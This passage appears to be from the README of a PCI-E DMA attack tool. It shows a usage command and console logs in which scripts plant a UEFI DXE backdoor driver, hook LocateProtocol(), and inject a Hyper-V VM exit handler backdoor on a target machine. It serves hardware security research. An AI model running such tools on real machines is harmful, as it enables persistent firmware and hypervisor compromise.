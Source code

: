 Example of debug messages on attack target screen:

<img src="https://raw.githubusercontent.com/Cr4sh/s6_pcie_microblaze/master/docs/images/backdoor_simple.png" width="499" height="371">

Example of `uefi_backdoor_simple.py` console output:

```
[!] Bad MRd TLP completion received
[!] Bad MRd TLP completion received
[!] Bad MRd TLP completion received
[+] PCI-E link with target is up
[+] TSEG is somewhere around 0xd7000000
[+] PE image is at 0xd6260000
[+] EFI_SYSTEM_TABLE is at 0xd61eaf18
[+] EFI_BOOT_SERVICES is at 0xd680aa00
[+] EFI_BOOT_SERVICES.LocateProtocol() address is 0xd67e2c18
Backdoor image size is 0x1240
Backdoor entry RVA is 0x31c
Planting DXE stage driver at 0x10000...
Hooking LocateProtocol(): 0xd67e2c18 -> 0x0001031c
0.780202 sec.
[+] DXE driver was planted, waiting for backdoor init...
[+] DXE driver was executed
[+] DONE
```

Python program `uefi_backdoor_hv.py` injects Hyper-V VM exit handler backdoor located in UEFI driver `payloads/DmaBackdoorHv`. Usage:

```
./uefi_backdoor_hv.py --payload payloads/DmaBackdoorHv/DmaBackdoorHv_X64.efi
[+] Reading DXE phase payload from payloads/DmaBackdoorHv/DmaBackdoorHv_X64.efi
[+] Waiting for PCI-E link...
[!] PCI-E endpoint is not configured by root complex yet
[!] PCI-E endpoint is not configured by root complex yet
[!] PCI-E endpoint is not configured by root complex yet
[!] Bad MRd TLP completion received
[+] PCI-E link with target is up
[+] Looking for DXE driver PE image...
[+] PE image is at 0x77160000
[+] EFI_SYSTEM_TABLE is at 0x7a03e018
[+] EFI_BOOT_SERVICES is at 0x7a38fa30
[+] EFI_BOOT_SERVICES.LocateProtocol() address is 0x7a3987b4
Backdoor image size is 0x2c20
Backdoor entry RVA is 0xbd4
Planting DXE stage driver at 0xc0000...
Hooking LocateProtocol(): 0x7a3987b4 -> 0x000c0bd4
3.611646 sec.
[+] DXE driver was planted, waiting for backdoor init...
[+] DXE driver was executed, you can read its debug messages by running this program with -d option
[+] Waiting for Hyper-V load...
[+] Hyper-V image was loaded

    Hyper-V image base: 0xfffff8072d690000
           Image entry: 0xfffff8072d901360
       VM exit handler: 0xfffff8072d8add90

[+] DONE
```
